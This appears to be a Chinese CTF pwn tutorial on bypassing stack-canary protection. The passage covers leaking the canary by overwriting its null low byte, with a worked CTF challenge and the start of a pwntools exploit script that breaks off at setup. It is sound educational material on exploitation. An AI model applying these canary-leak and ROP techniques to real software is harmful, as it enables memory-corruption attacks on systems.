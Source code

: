 ```yaml
---
title: Canary保护的6种绕过姿势
date: 2021-01-20 22:19:09
tags: pwn
---
```


众所周知，CTF-pwn中的elf可执行程序存在以下几种保护措施：NX、PIE、RELRO、Canary
这篇文章讲Canary的保护的绕过姿势，目前学习到的方法有6种，其实这些东西我已经在线上线下讲过了3遍，但是一直很懒没有形成文字，今天特地写一下，意味着懒🐕了这么久的一个新开端吧

## Canary介绍  

```
Canary中文意译为金丝雀，来源于英国矿井工人用来探查井下气体是否有毒的金丝雀笼子。工人们每次下井都会带上一只金丝雀。如果井下的气体有毒，金丝雀由于对毒性敏感就会停止鸣叫甚至死亡，从而使工人们得到预警
```

那么，我们可以简单把它理解成一个类似于cookie之类的东西，程序执行时需要验证它是正确的才能正常向下执行
通常的栈溢出利用，需要覆盖返回地址以控制程序流，那么只需要在覆盖返回地址之前插入一个叫Canary的cookie信息，当函数返回之时检测Canary的值是否被更改，就可以判断是否发生了栈溢出这种危险行为，如果Canary被更改，程序会去执行__stack_chk_fail函数并结束。
一般来说，canary大部分情况都是在rbp-0x8的位置
![](1.png)
栈中的canary大概长这样
![](2.png)

## 覆盖低字节泄露Canary

有些存在溢出漏洞的程序，在要求我们输入字符后，会将我们输入的字符打印出来，而canary的最低位是\x00，是为了让canary可以截断输入的字符。我们可以利用溢出，多覆盖一个字节，将\x00给覆盖掉，那么canary就会和我们输入的字符连起来，那么，程序打印时没有检查打印字符的长度的话，就可以连带着Canary打印出来了，然后再次溢出，将泄露出的canary填入原来的位置，就可以覆盖到返回地址了

### 例题：攻防世界_厦门邀请赛pwn1

分析下代码
![](3.png)
存在栈溢出，canary在rbp-0x8的位置，可以将输入的字符串打印出来
那思路就很明确了
先通过多写1字节将\x00覆盖，然后打印泄露Canary，最后直接ROP
覆盖完大概长这样
![](4.png)

#### exp

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import*
from LibcSearcher import *
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './babystack'
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
pop_rdi_ret = 0x0000000000400a93
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
start = 0x0000000000400720
```